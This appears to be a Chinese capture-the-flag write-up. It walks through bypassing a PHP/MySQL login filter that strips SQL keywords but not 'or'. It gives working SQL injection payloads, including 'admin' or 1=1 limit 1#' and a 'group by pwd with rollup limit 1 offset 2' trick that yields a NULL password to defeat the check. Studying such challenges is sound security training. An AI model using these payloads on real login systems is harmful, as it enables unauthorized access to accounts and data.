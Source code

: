 ```PHP
}else{
        print "一颗赛艇！";
}
mysql_close($con);
?>
```

这个代码不复杂，就是查询一个是否存在数据库中的 数据，如果账户密码相同则输出flag，账户相同密码不同则输出 “一颗赛艇”，注意下mysql_num_rows作用是取得结果集中行的数目，表示取得uname是否存在。
这个代码先把post上去的数据中“and|select|from|where|union|join|sleep|benchmark|”全部去除，所以基本上一般的注入不可行。但是他没有过滤or，所以感觉可以构造万能密码类似的playload来绕过 mysql_num_rows($query) == 1
palayload:   
uname=admin' or 1=1#&pwd=
一颗赛艇
结果集中只取一个，所以加上limit限制
playload:
uname=admin' or 1=1 limit 1#&pwd=
亦可赛艇

现在不知道密码，看到是 == ，弱类型，一开始想的是用 pwd[]=来绕过，但是上面已经用过数组直接转换为字符型了，所以不行。
看网上的wp，说利用 group by with rollup来绕过，这个with rollup来改善统计性能的 。
-mysql> select dep,pos,avg(sal) from employee group by dep,pos with rollup;
+------+------+-----------+
 | dep | pos | avg(sal) |
+------+------+-----------+
 | 01 | 01 | 1500.0000 |
 | 01 | 02 | 1950.0000 |
 | 01 | NULL | 1725.0000 |
 | 02 | 01 | 1500.0000 |
 | 02 | 02 | 2450.0000 |
 | 02 | NULL | 2133.3333 |
 | 03 | 01 | 2500.0000 |
 | 03 | 02 | 2550.0000 |
 | 03 | NULL | 2533.3333 |
 | NULL | NULL | 2090.0000 |
 +------+------+-----------+
其实就是多出一行来统计类似平均数的，可以利用的点就是group by 后面的字段在最后一行是NULL，所以就是利用到题目上就是NULL=空字符串
playload:
uname=admin' or 1=1 group by pwd with rollup limit 1 offset 2#&pwd=
至于为什么是第3条数据，这个就是一个个猜出来的。

offset是来代替“，”的，但是意思有所区别。
![](http://oohnuejim.bkt.clouddn.com/%E5%9B%A0%E5%9E%82%E4%B8%9D%E6%B1%80%E7%9A%84%E7%BB%95%E8%BF%87.png)
limit 1 offset 2 是取到2，而limit1，2是取2个。
